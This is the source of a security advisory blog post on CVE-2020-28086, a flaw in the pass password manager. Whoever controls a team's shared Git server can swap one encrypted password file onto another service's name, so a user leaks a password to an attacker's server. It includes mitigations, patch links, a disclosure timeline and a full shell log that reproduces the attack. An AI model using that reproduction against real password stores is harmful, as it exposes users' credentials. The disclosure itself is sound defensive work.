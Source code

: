 ```yaml
---
layout: post
title: "CVE-2020-28086 information leakage through third party service in pass"
author: capitol
category: security
---
```

![pass-passwordstore](/images/pass-passwordstore.png)

[`pass`](https://www.passwordstore.org/) is a password manager that encrypts your or your
team's passwords with GPG and those can be stored in a Git repository.

Each password is encrypted in its own file, often named after the service and username.
For example the password for the user `richard` on the service Spotify might be named
`spotify/richard.gpg`.

## Trust Boundaries

It's possible to configure your usage of `pass` in many ways, but if you are using it in a team then
this is a common setup:

Each member has a local machine with a GPG configuration that trusts all other members of the team.

The password store is in Git, and there is a central server to which all team members push and pull.

Here we have three zones:

 * Your own machine
 * The central server
 * The other team members

Any operator in one of the zones shouldn't be able to cross a zone barrier and gain
information or resources from another zone.

## The Attack

If an attacker controls the central Git server or one of the other members' machines, and
also controls one of the services already in the password store they can do the following:

Rename one of the password files in the Git repository to something else.

`pass` doesn't correctly verify that the content of file matches the filename, so a user
might be tricked to decrypting the wrong password and send that to a service that the
attacker controls.

## Example

Given this setup:
 * A user Bob with a local installation of `pass`
 * A git server where the passwords are stored
 * One password to `bob@server1.example.com`
 * One password to `bob@server2.example.com`
 * An attacker called Mallory

If Mallory takes control over the central Git server and `server2.example.com` then he could
rename the file named `bob@server1.example.com.gpg` to `bob@server2.example.com` and commit it.

The next time that Bob then does a git pull and accesses `server2.example.com` his password to
`server1.example.com` will be exposed.

## Possible Mitigations

GPG supports storing the filename in the encryption packet. This can be set with the
`--set-filename` flag when storing a password and needs to be verified by the `pass` software before
decryption happens.

But the filename field in GPG have a couple of problems. It's limited to 255 bytes and the
specification doesn't specify what encoding that should be used. This might make it vulnerable
to further attacks due to encoding confusion.

Another solution would be to use a [signature notation](https://docs.sequoia-pgp.org/sequoia_openpgp/packet/signature/subpacket/struct.NotationData.html)
packet in GPG. It has a length of up to 64 KB. It can also be set on the `gpg` command line:

```
echo 1 |
    gpg -se --sig-notation \!filename@pass=/path/to/file.gpg -r alexander.kjall@gmail.com |
    gpg -d --verify-options show-notations --known-notation \!filename@pass
```

### Patches

A crude attempt at writing a patch for this vulnerability is in these two patches,
[adding signature]({% link /assets/0001-Sign-and-anotate-commits-with-a-filename-passwordsto.patch %})
and [verify signature]({% link /assets/0002-When-decrypting-a-password-file-first-verify-that-th.patch %}).

The patches tries to mitigate the vulnerability by applying a signature notation, but they don't
include any migration strategy for existing password stores.

## Reproduction Steps

Here is a log of the steps to reproduce the vulnerability:

```
capitol@tool:/tmp$ PASSWORD_STORE_DIR=/tmp/store1 pass init 0x1D108E6C07CBC406
Password store initialized for 0x1D108E6C07CBC406
capitol@tool:/tmp$ cd store1/
capitol@tool:/tmp/store1$ git init
Initialized empty Git repository in /tmp/store1/.git/
capitol@tool:/tmp/store1$ cd ..
capitol@tool:/tmp$ PASSWORD_STORE_DIR=/tmp/store1 pass generate bob@server1.example.com
[master (root-commit) 208e574] Add generated password for bob@server1.example.com.
 1 file changed, 1 insertion(+)
 create mode 100644 bob@server1.example.com.gpg
The generated password for bob@server1.example.com is:
7A\ZOg(|`L.G0{Dce^a~SPiC~
capitol@tool:/tmp$ PASSWORD_STORE_DIR=/tmp/store1 pass generate bob@server2.example.com
[master 4e43e37] Add generated password for bob@server2.example.com.
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 bob@server2.example.com.gpg
The generated password for bob@server2.example.com is:
"}zC}4d[wD%N$<7D@WO@2QA-f
capitol@tool:/tmp$ cd store1/
capitol@tool:/tmp/store1$ git add .gpg-id
capitol@tool:/tmp/store1$ git commit -m ".gpg-id"
[master 29e4c37] .gpg-id
 1 file changed, 1 insertion(+)
 create mode 100644 .gpg-id
capitol@tool:/tmp/store1$ cd /tmp/server/
capitol@tool:/tmp/server$ git init --bare
Initialized empty Git repository in /tmp/server/
capitol@tool:/tmp/server$ cd /tmp/store1/
capitol@tool:/tmp/store1$ git push --set-upstream /tmp/server/ master
Enumerating objects: 9, done.
Counting objects: 100% (9/9), done.
Delta compression using up to 4 threads
Compressing objects: 100% (8/8), done.
Writing objects: 100% (9/9), 1.56 KiB | 798.00 KiB/s, done.
Total 9 (delta 2), reused 0 (delta 0)
To /tmp/server/
 * [new branch]      master -> master
Branch 'master' set up to track remote branch 'master' from '/tmp/server/'.
capitol@tool:/tmp/store1$ cd ..
capitol@tool:/tmp$ git clone /tmp/server/ store2
Cloning into 'store2'...
done.
capitol@tool:/tmp$ cd store2/
capitol@tool:/tmp/store2$ cp bob@server1.example.com.gpg bob@server2.example.com.gpg
capitol@tool:/tmp/store2$ git add .
capitol@tool:/tmp/store2$ git commit -m "this is the attack"
[master d239dd5] this is the attack
 1 file changed, 0 insertions(+), 0 deletions(-)
capitol@tool:/tmp/store2$ git push
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (2/2), 406 bytes | 406.00 KiB/s, done.
Total 2 (delta 1), reused 0 (delta 0)
To /tmp/server/
   29e4c37..d239dd5  master -> master
capitol@tool:/tmp/store2$ cd /tmp/store1/
capitol@tool:/tmp/store1$ git pull
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 2 (delta 1), reused 0 (delta 0)
Unpacking objects: 100% (2/2), 386 bytes | 386.00 KiB/s, done.
From /tmp/server
 * branch            master     -> FETCH_HEAD
Updating 29e4c37..d239dd5
Fast-forward
 bob@server2.example.com.gpg | Bin 173 -> 173 bytes
 1 file changed, 0 insertions(+), 0 deletions(-)
capitol@tool:/tmp/store1$ PASSWORD_STORE_DIR=/tmp/store1 pass show bob@server2.example.com
7A\ZOg(|`L.G0{Dce^a~SPiC~
```

The password that is shown on the last line is the password associated with `bob@server1.example.com`.

## Timeline

* 2020-10-22 Email sent to main developer of pass
* 2020-10-24 CVE requested
* 2020-10-24 Email sent to main developer of [QtPass](https://qtpass.org/)
* 2020-10-24 Email sent to main developer of [gopass](https://www.gopass.pw/), the attack is outside of
  `gopass` stated security policy.
* 2020-10-24 Email sent to main developer of [upass](https://github.com/Kwpolska/upass), upass
  calls out to pass in a subshell and is therefore not directly affected.
* 2020-10-24 Email sent to main developer of [pass-winmenu](https://github.com/geluk/pass-winmenu)
* 2020-11-13 Email with first draft of a patch sent
* 2020-12-07 CVE number assigned
